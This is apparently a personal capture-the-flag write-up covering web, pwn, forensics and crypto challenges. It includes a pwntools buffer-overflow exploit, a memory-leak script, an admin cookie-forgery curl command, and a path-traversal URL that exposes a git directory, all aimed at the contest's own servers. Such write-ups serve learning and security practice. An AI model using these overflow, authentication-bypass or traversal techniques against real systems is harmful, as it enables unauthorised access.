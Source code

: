 I actually had a team for this one; decided I'd learn more and of course be more successful with others so I acquired some help. These are the challenges I solved (organized from most interesting to least).

## logloglog
I didn't actually solve this during competition-time, but I thought it was really interesting nonetheless.


## wah
I put this in "interesting" because this was my first foray into pwn. Quite fun. Procedure: find offset of variable you can overflow from the instruction pointer, then overflow and overwrite the address it's pointing to (as that's what will execute).
```python
from pwn import *

target = remote('challs.actf.co', 31224)
#target = process('./wah')
payload = b"0"*0x28
payload += p64(0x401236)

target.sendline(payload)
```
## whatsmyname
Turns out if you don't properly null-terminate a user-supplied  string, you can read arbitrary memory (in this case, the a random variable).
```python
target = remote("challs.actf.co", 31223)
target.sendline("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
line = target.recvline()
#print(line)
#print(target.recvline())
target.sendline(line[-49:][:-1])
#print(line[-49:][:-1])
print(target.recvline())
target.close()
```

# Simpler Challenges
## Amogus
```bash
diff -q --from-file actf\{look1ng_f0r_answers_in_the_p0uring_r4in_*; echo $?

Files actf{look1ng_f0r_answers_in_the_p0uring_r4in_001a5e03f1d9}.txt
and actf{look1ng_f0r_answers_in_the_p0uring_r4in_b21f9732f829}.txt differ
```
flag = `actf{look1ng_f0r_answers_in_the_p0uring_r4in_b21f9732f829}.txt`

## Crumbs
There may have been an easier way to do this but php is annoying and 1000 requests took maybe 2 minutes so ...
```python
import requests

apend = ""
for x in range(1001):
    resp = requests.get("https://crumbs.web.actf.co/"+apend).text
    print(resp)
    apend = resp.split("to ")[-1]
```

## Shark 1
```
strings shark1.pcapng | grep "actf"
Emactf{wireshark_doo_doo_doo_doo_doo_doo}
```
## Shark 2
1. "Ooh look an (unencrypted) conversation". 
2. 'I am sending the file now' says `10.0.2.15` ... oh come on this is too easy
3. A TCP stream from that address can be found immediately after 
4. Me: \*Follows stream\*
5. There's an image header: it's a JFIF (aka jpeg) file
5. Export as `shark.jpeg` (Wireshark conveniently has this function available)
6. Profit (the image had the flag)


## Auth Skip
I love default bash tools (and Linux as a whole but that's not largely relevant here): `curl -v --cookie "user=admin" https://auth-skip.web.actf.co/`

## The Flash
SimpleScreenRecorder + VLC ('e' to step forward a frame)

!["Sometimes simple solutions are best"](../cdn/flash.png "Sometimes simple solutions are best")

## Art Gallery
The description immediately gave this away.
> bosh left his image gallery service running.... quick, git all of his secrets before he deletes them!!!

LFI with a git directory: `https://art-gallery.web.actf.co/gallery?member=../git/`

## Caesar and Desister
One word: [dcode.fr](https://www.dcode.fr/caesar-cipher)

!["Thanks dcode.fr"](../cdn/dcode.png)


